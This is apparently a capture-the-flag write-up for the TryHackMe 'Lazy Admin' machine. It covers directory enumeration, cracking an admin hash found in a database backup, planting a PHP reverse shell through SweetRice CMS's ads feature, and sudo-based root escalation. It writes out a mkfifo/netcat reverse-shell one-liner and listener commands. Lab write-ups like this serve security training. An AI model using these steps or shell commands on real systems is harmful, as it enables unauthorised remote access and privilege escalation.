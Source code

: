# TryHackMe Lazy Admin
**Easy linux machine to practice your skills**

* After going to the ip in browser it showed just a static apache webpage. So I ran nmap and gobuster on this ip. Nmap gave port - '22', '80'. Gobuster gave us a directory named 'content'. So I ran gobuster again with content directory added this time. Command for this is '*gobuster dir -u http://<IP>/content* -w directory-list-2.3-medium.txt'. We got many sub-directories. On 'as' we have a login page. So I thought its creds should be somewhere in these above listed directories. 

* Then I moved to 'inc' and saw a folder 'mysql_backup' which contains a mysql_database_backup file. After opening it we can see below in the 'INSERT' command that we have admin as 'manager' and we have hash for the password : '42f749ade7f9e195bf475f37a44cafcb'. I used https://crackstation.net/ to crack this hash and got the password as 'Password123'. So I moved to 'as' page where there was a login page.

* It was admin panel page for SweetRice cms. I tried to find its CVE using '*searchsploit sweetrice*' and we got our exploit. There were many exploits but I chose 'PHP code execution'. Aftergoing through the exploit on https://www.exploit-db.com/exploits/40700 it was clear that we can upload our 'php reverse shell' there. The exploit description gave us the location where we can upload our shell.

* After getting the shell location as 'In SweetRice CMS Panel In Adding Ads Section SweetRice Allow To Admin Add
PHP Codes In Ads File' go to sweetrice page and click on 'Ads' section. There paste the 'php reverse shell' code in the 'Ads code' area. Change the IP to your tun0ip in the shell and upload it. tun0ip can be found using 'ifconfig'. Php reverse shell can be found on pentestmonkey. Now submit the code and go to http://<IP>/content/inc where all directories and files are listed.

* Now go to 'ads' folder and you can see our shell uploaded there. Start netcat connection on your terminal using command '*nc -lnvp port_no_specified_in_shell*' and then click on 'shell.php' in your webpage. And yes we have our shell.

* Now navigate to home directory to see the users using *ls -la /home* and we see a user named 'itguy'. Go to its directory and type 'ls -la'. You will see a 'user.txt' file. Now '*cat user.txt*' to see its content.

1. What is the user flag?<br>
Answer : THM{63e5bce9271952aad****************}

* Now type 'sudo -l' to list user privileges. We see '(ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl'. So type 'cat /home/itguy/backup.pl' to see the file. It shows '#!/usr/bin/perl<br>system("sh", "/etc/copy.sh");'. So now type 'cat /etc/copy.sh' to see the file. We see that it is a reverse shell and as a user we can change it. 

* So your reverse shell should look like this : 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc tun0ip 4444 >/tmp/f' as we saw in above step. Now in your local machine type 'nc -lnvp 4444' and run the file in your 'itguy' terminal using command '*sudo /usr/bin/perl /home/itguy/backup.pl*' which we got from 'sudo -l'. 

* We have our shell . Confirm it by typing 'whoami' and it will show root. Now type 'ls -la /root' and we see a 'root.txt' file. 'cat /root/root.txt' to see its content which is the answer to our last question.

2. What is the root flag?<br>
Answer : THM{6637f41d0177b6f37****************}